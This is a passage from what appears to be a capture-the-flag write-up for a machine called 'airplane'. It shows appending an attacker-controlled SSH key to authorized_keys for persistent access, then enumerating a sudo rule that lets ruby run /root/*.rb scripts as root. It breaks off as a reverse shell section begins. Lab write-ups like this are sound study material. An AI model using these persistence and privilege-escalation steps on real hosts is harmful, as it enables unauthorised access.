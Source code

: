 ```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@mdn0xonKali' >> authorized_keys
```

We can't because we are `carlos` as `hudson` we need to update permissions :

```bash
chmod 644 authorized_keys
```

## SSH Carlos

Now we can really start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we check :

```bash
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb

```

## GTFObins

We can search for ruby sudo :

![Pasted image 20250722165117.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250722165117.png)

But won't work cause we're not in root directory, we can escape this somehow .

## Reverse Shell 

We can download a simple Ruby [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) :
